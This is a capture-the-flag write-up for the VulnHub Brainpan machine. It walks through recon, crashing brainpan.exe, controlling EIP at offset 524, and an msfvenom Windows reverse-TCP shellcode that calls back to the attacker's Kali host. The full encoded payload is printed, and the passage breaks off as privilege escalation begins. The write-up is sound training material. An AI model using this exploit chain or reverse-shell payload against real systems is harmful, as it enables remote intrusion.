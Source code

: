 # Brainpan

* ### Setup

  Download the virtual machine <a href="https://www.vulnhub.com/entry/brainpan-1,51/">here</a> and import it in either VirtualBox or        VMWare.
  * **Addresses** - This will be important to underdstand the writeup.
    * My Windows machine: **192.168.2.11**
    * My Kali machine: **10.0.2.15**
    * Brainpan machine: **10.0.2.8**
  
### Information Gathering
---

First of all, we run **nmap** with `nmap -sC -sV -p- -oA brainpan.nmap 10.0.2.8` (replace your target IP)  

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/first.png">

We can see that there are only two ports open and two services running on the machine, one at **9999** and the other at **10000**.

Navigating to **10.0.2.8:9999** with firefox returns   

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/second.png">

The service running there seems to be expecting a password but it doesn't seem to work over http.

Let's try talking to it with **nc** with `nc 10.0.2.8 9999`

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/six.png">


We can now input a password but we don't know it **_yet_**.

Navigating to **10.0.2.8:10000** returns  
<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/third.png">  

Just a page with an image.

At this point we can put **gobuster** (directory fuzzing tool) running in the background with   
`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.8:10000/ -t 5 --timeout 50s`

The high timeout was selected because the HTTP Server running is just a python module and can't handle that much traffic at once. Choosing a lower one returns a lot of errors.

After a while, gobuster returns an interesting directory **_/bin_**.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/fourth.png">


Navigating there we see only one file called **brainpan.exe**

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/five.png">


Let's download it.

Running it locally with **wine** reveals it is someking of server expecting for connections at port 9999, just like the service on the box.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/seven.png">


The program now listens on localhost, so let's connect with **nc** at our own machine at port 9999.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/eight.png">


It is clear now that **brainpan.exe** is a copy of the program listening at **9999** at the **remote** box.

Although it is a Windows executable, we can still run `strings` on it.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/nine.png">


This looks interesting.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/ten.png">


This seems to be the correct password but nothing happens when we type it, even at the remote service, so it's pretty useless.

## Vulnerability Analysis
---

We can move **brainpan.exe** to our windows machine for easier analysis.

Start up **Immunity Debugger** and run the program.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/eleven.png">

We will try to crash the application.

Open an ubuntu terminal from the installed ubuntu subsystem on windows, and create a python script like this

```python

print b"A" * 1000
```

Now echo the output to a file `python test.py > crash` , and run `nc 192.168.2.11 9999 <crash` to give the contents of **crash** as input for the password to the program. After running, take a look at **immunity**.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/twelve.png">

We see that not only we crashed the program but we also **overwrote** the instruction pointer **eip**. 
We have a **Buffer Overflow!**

## Exploitation
---

Through a little trial and error, we find that we need to print **524** bytes to start overwriting **eip**.

Typing `!mona modules` in immunity's command line, we see that all protections on **brainpan.exe** are turned off, so this is going to be pretty easy. (Install mona <a href="https://github.com/corelan/mona">here</a>.)  

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/thirteen.png">


Now that we control **eip**, what should we set it to? Where will our shellcode be placed?
Please read: https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/

Right after overwriting **eip** we start overwriting the next values on the stack beginning at the point where the **stack pointer** will return to, after the function call.

* So we have to find a way to jump to **esp**.
Searching in all modules in Immunity for the command `jmp esp` results in 

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/fourteen.png">


We can only use the `jmp esp` located in **brainpan** itself, because it is the **only** module with **ASLR** disabled.
This means that this particular instruction will always be at that particular address.

Let's point **eip** to that address.

```python
from struct import pack
padding = b"A" * 524 # To reach EIP
padding += pack("<L",0x311712F3)
padding += "\x90" * 10 # NOPs
padding += "\xcc" # Add a breakpoint
print padding
```
Now do `python test.py > test` and restart the program giving as input `nc 192.168.2.11 9999 <test`

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/fifteen.png">


We can see we are successful, the program executed our instruction perfectly and stopped right at the`\xcc` we provided , which is a way to halt execution. (This is how debuggers work and are able to stop execution of a program).

Now let's create a **_real_** payload with **msfvenom**. We can create the appropriate shellcode with
`msfvenom -p windows/shell/reverse_tcp LHOST=10.0.2.15 -e x86/shikata_ga_nai -b '\x00' -f python --smallest -v shellcode`.

Although the target is Linux-based, it probably runs brainpan with **wine** and that is why we select windows in **msfvenom**, so we can execute **windows cmd** in wine at the remote host.

The above command selects port **4444** as the listen port automatically and outputs the following shellcode in a format that is easy to implement in **python** and **clear** of **null bytes '\x00'**.


```python

shellcode += b"\xdb\xd3\xd9\x74\x24\xf4\xbb\xad\x99\x66\x76"
shellcode += b"\x5e\x31\xc9\xb1\x47\x83\xc6\x04\x31\x5e\x16"
shellcode += b"\x03\x5e\x16\xe2\x58\x65\x8e\xf4\xa2\x96\x4f"
shellcode += b"\x99\x2b\x73\x7e\x99\x4f\xf7\xd1\x29\x04\x55"
shellcode += b"\xde\xc2\x48\x4e\x55\xa6\x44\x61\xde\x0d\xb2"
shellcode += b"\x4c\xdf\x3e\x86\xcf\x63\x3d\xda\x2f\x5d\x8e"
shellcode += b"\x2f\x31\x9a\xf3\xdd\x63\x73\x7f\x73\x94\xf0"
shellcode += b"\x35\x4f\x1f\x4a\xdb\xd7\xfc\x1b\xda\xf6\x52"
shellcode += b"\x17\x85\xd8\x55\xf4\xbd\x51\x4e\x19\xfb\x28"
shellcode += b"\xe5\xe9\x77\xab\x2f\x20\x77\x07\x0e\x8c\x8a"
shellcode += b"\x56\x56\x2b\x75\x2d\xae\x4f\x08\x35\x75\x2d"
shellcode += b"\xd6\xb0\x6e\x95\x9d\x62\x4b\x27\x71\xf4\x18"
shellcode += b"\x2b\x3e\x73\x46\x28\xc1\x50\xfc\x54\x4a\x57"
shellcode += b"\xd3\xdc\x08\x73\xf7\x85\xcb\x1a\xae\x63\xbd"
shellcode += b"\x23\xb0\xcb\x62\x81\xba\xe6\x77\xb8\xe0\x6e"                                                                                                         
shellcode += b"\xbb\xf0\x1a\x6f\xd3\x83\x69\x5d\x7c\x3f\xe6"
shellcode += b"\xed\xf5\x99\xf1\x64\x11\x1a\x2d\xce\x72\xe5"
shellcode += b"\xce\x2f\x5a\x21\x9a\x7f\xf4\x80\xa3\xeb\x04"
shellcode += b"\x2d\x76\x81\x0e\xb9\x73\x56\x0d\x36\xec\x54"
shellcode += b"\x11\x59\xb0\xd1\xf7\x09\x18\xb2\xa7\xe9\xc8"
shellcode += b"\x72\x18\x81\x02\x7d\x47\xb1\x2c\x57\xe0\x5b"
shellcode += b"\xc3\x0e\x58\xf3\x7a\x0b\x12\x62\x82\x81\x5e"
shellcode += b"\xa4\x08\x26\x9e\x6a\xf9\x43\x8c\x1a\x09\x1e"
shellcode += b"\xee\x8c\x16\xb4\x85\x30\x83\x33\x0c\x67\x3b"
shellcode += b"\x3e\x69\x4f\xe4\xc1\x5c\xc4\x2d\x54\x1f\xb2"
shellcode += b"\x51\xb8\x9f\x42\x04\xd2\x9f\x2a\xf0\x86\xf3"
shellcode += b"\x4f\xff\x12\x60\xdc\x6a\x9d\xd1\xb1\x3d\xf5"
shellcode += b"\xdf\xec\x0a\x5a\x1f\xdb\x8a\xa6\xf6\x25\xf9"
shellcode += b"\xc6\xca"
```

Create the final python script with the above shellcode. You can find it in this repo too.

Let's test it locally first. Run brainpan with wine again and prepair like this.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/sixteen.png">


Now run the command at the bottom left aaaand we have a **shell** !

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/seventeen.png">


Doing the same but for the brainpan box gives us a shell with the user **puck**

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/eighteen.png">


## Privilege escalation 
---

As you have probably guessed the remote 


